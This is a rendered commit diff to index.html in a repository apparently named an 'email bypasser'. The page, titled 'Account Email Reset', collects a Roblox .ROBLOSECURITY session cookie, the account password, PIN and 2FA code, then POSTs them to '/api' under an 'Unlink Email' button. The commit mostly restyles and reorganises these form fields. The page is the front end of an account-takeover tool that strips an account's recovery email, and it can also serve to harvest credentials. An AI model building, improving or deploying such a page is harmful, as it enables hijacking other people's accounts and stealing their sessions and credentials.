

Before and after one commit to m3balne/m3.balne-email-bypasser, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -6,6 +6,7 @@
 <title>Account Email Reset</title>
 <style>
   :root { color-scheme: dark; }
+  * { box-sizing: border-box; }
   body { margin:0; font:14px/1.5 system-ui,sans-serif;
          background:#0b0d10; color:#e6e8eb;
          display:flex; min-height:100vh; align-items:center;
@@ -13,23 +14,30 @@
   .card { width:100%; max-width:520px; background:#14171c;
           border:1px solid #23272e; border-radius:12px;
           padding:24px; }
-  h1 { font-size:16px; margin:0 0 16px; letter-spacing:.2px; }
+  h1 { font-size:16px; margin:0 0 20px; letter-spacing:.2px; }
+  .field { margin-bottom:16px; }
+  .field:last-of-type { margin-bottom:0; }
   label { display:block; font-size:12px; color:#8b919a;
-          margin:12px 0 4px; }
-  input, textarea { width:100%; box-sizing:border-box;
+          margin-bottom:6px; }
+  label .hint { color:#5b616b; font-weight:400; }
+  input, textarea { width:100%; display:block;
           background:#0b0d10; color:#e6e8eb;
           border:1px solid #2a2f37; border-radius:8px;
-          padding:10px; font:inherit; }
-  textarea { min-height:80px; resize:vertical;
+          padding:10px 12px; font:inherit;
+          transition: border-color .15s; }
+  input:focus, textarea:focus { outline:none;
+          border-color:#4a515c; }
+  textarea { min-height:72px; resize:vertical;
              font-family:ui-monospace,monospace; font-size:12px; }
-  button { margin-top:16px; width:100%; padding:11px;
+  button { margin-top:20px; width:100%; padding:11px;
            background:#e6e8eb; color:#0b0d10; border:0;
            border-radius:8px; font-weight:600; cursor:pointer; }
   button:disabled { opacity:.5; cursor:default; }
-  pre { margin-top:16px; background:#0b0d10; border:1px solid #23272e;
+  pre { margin-top:20px; background:#0b0d10; border:1px solid #23272e;
         border-radius:8px; padding:12px; font-size:12px;
         white-space:pre-wrap; word-break:break-word;
-        max-height:260px; overflow:auto; }
+        max-height:260px; overflow:auto;
+        font-family:ui-monospace,monospace; }
   .ok  { color:#4ade80; } .bad { color:#f87171; }
 </style>
 </head>
@@ -37,16 +45,26 @@
 <div class="card">
   <h1>Account Email Reset</h1>
 
-  <label>ROBLOSECURITY cookie</label>
-  <textarea id="cookie" placeholder="paste .ROBLOSECURITY value"></textarea>
+  <div class="field">
+    <label for="cookie">ROBLOSECURITY cookie</label>
+    <textarea id="cookie" placeholder="paste .ROBLOSECURITY value"></textarea>
+  </div>
 
-  <label>Account password</label>
-  <input id="password" type="password" autocomplete="off">
+  <div class="field">
+    <label for="password">Account password</label>
+    <input id="password" type="password" autocomplete="off">
+  </div>
 
-  <label>Account PIN (optional)</label>
-  <label>2FA code (if account has 2-step verification)</label>
-<input id="code" type="text" inputmode="numeric" autocomplete="one-time-code" maxlength="8">
-  <input id="pin" type="password" autocomplete="off">
+  <div class="field">
+    <label for="pin">Account PIN <span class="hint">— optional</span></label>
+    <input id="pin" type="password" autocomplete="off">
+  </div>
+
+  <div class="field">
+    <label for="code">2FA code <span class="hint">— only if account has 2-step verification</span></label>
+    <input id="code" type="text" inputmode="numeric"
+           autocomplete="one-time-code" maxlength="8">
+  </div>
 
   <button id="go">Unlink Email</button>
   <pre id="out">idle</pre>
@@ -60,6 +78,7 @@
   const cookie   = $("cookie").value.trim();
   const password = $("password").value;
   const pin      = $("pin").value.trim();
+  const code     = $("code").value.trim();
 
   if (!cookie || !password) {
     out.className = "bad";
@@ -75,7 +94,7 @@
     const res = await fetch("/api", {
       method: "POST",
       headers: { "Content-Type": "application/json" },
-      body: JSON.stringify({ cookie, password, pin, code: $("code").value.trim() })
+      body: JSON.stringify({ cookie, password, pin, code })
     });
     const data = await res.json();
 
```
